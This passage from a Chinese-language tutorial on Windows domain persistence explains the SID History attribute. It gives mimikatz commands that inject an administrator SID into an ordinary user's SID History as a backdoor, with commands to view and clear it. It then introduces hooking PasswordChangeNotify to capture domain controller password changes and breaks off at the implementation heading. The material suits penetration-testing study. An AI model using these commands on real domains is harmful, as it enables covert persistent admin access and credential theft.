 SID History 是在域迁移过程中需要使用的一个属性。

如果将 A 域中的域用户迁移到 B 域中，那么在 B 域中该用户的 SID 会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。

**SID History 的作用是在域迁移过程中保持域用户的访问权限**，即如果迁移后用户的 SID 改变了，系统会将其原来的 SID 添加到迁移后用户的 SID History 属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源。

使用 mimikatz，可以将 SID History 属性添加到域中任意用户的 SID History 属性中。在实战中，如果获得了域管理员权限，则可以将 SID History 作为实现持久化的方法。

#### [](#241-%E6%B7%BB%E5%8A%A0-sid-history-%E5%90%8E%E9%97%A8)2.4.1 添加 SID History 后门

打开一个具有域管理员权限的命令行窗口，然后打开 mimikatz，将 administrator 的 SID 添加到 hack 用户的 SID History 属性中。

> 需要注意的是，在使用 mimikatz 注入 SID 之前，需要使用 sid::patch 命令修复 NTDS 服务，否则无法将高权限的 SID 注入低权限用户的 SID History 属性

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::add /new:administrator /sam:test" "exit"<br># 将 administrator 的 SID 添加到 hack 的 SID History 属性中<br>``` |

#### [](#242-%E6%9F%A5%E7%9C%8B-sid-history)2.4.2 查看 SID History

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module activedirectory<br>Get-ADUser hack -Properties sidhistory<br>``` |

#### [](#243-%E6%B8%85%E9%99%A4-sid-history)2.4.3 清除 SID History

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::clear /sam:test" "exit"<br>``` |

### [](#25-hook-passwordchangenotify)2.5 Hook PasswordChangeNotify

#### [](#251-%E8%83%8C%E6%99%AF)2.5.1 背景

在修改域控密码时会进行如下同步操作：

1.  当修改域控密码时，LSA 首先调用 PasswordFileter 来判断新密码是否符合密码复杂度要求
2.  如果符合，LSA 接着调用 PasswordChangeNotify 在系统上同步更新密码

函数 PasswordChangeNotify 存在于 rassfm.dll

rassfm.dll 可理解为 Remote Access Subauthentication dll，只存在于在 Server 系统下，xp、win7、win8 等均不存在

#### [](#252-%E7%89%B9%E7%82%B9)2.5.2 特点

1.  不需要重启
2.  不需要修改注册表
3.  甚至不需要在系统放置dll

#### [](#253-%E5%AE%9E%E7%8E%B0)2.5.3 实现
